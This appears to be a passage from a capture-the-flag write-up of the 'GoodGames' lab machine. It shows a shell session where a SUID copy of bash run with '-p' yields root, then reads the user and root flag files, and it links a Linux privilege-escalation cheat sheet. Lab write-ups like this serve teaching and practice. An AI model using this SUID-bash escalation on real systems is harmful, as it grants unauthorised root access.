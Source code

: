 ```bash
-rw-r--r-- 1 augustus augustus     807 Oct 19  2021 .profile
-rw-r----- 1 root     augustus      33 Aug 15 14:10 user.txt
augustus@GoodGames:~$ ./bash -p
./bash -p
bash-5.1# whoami
whoami
root
bash-5.1# cat /home/augustus/user.txt
cat /home/augustus/user.txt
e950d45708b4f0294a0facc97621ef35
bash-5.1# cat /root/root.txt
cat /root/root.txt
4c445d98ed713a143512122ca28a9d5f
```

>   `bash -p` preserves the SUID/GUID.
>
>   More Linux Privilege Escalation examples can be found [here](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/privilege-escalation/linux/linux-examples.rst). 